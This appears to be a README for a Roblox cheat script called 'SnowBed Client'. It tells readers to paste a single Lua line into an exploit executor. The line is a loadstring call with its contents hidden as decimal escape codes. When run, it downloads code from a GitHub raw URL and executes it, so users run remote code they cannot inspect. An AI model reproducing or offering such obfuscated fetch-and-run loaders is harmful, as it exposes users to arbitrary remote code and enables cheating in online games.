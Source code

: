 # SnowBed Client
# The Best Client for your favorite roblox games
Just copy the script and put it in your executer

```lua
loadstring("\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\34\104\116\116\112\115\58\47\47\114\97\119\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\75\101\118\105\110\111\114\51\113\120\116\47\83\110\111\119\66\101\100\45\67\108\105\101\110\116\47\109\97\105\110\47\72\111\111\100\37\50\48\83\99\114\105\112\116\115\34\44\32\116\114\117\101\41\41\40\41\10")()
```
